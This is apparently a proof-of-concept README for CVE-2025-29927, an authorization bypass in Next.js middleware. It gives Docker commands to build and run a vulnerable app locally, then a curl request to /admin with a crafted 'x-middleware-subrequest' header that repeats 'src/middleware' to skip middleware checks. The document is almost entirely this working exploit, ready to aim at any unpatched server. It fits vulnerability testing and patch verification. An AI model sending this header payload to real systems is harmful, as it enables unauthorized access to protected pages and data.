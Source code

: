 # CVE-2025-29927

## Build Infrastructure
```sh
docker build -t cve-poc .
docker run -d -p 3000:3000 --name next-app cve-poc
```

## PoC
```
curl http://localhost:3000/admin -i -H "x-middleware-subrequest: src/middleware:src/middleware:src/middleware:src/middleware:src/middleware"
```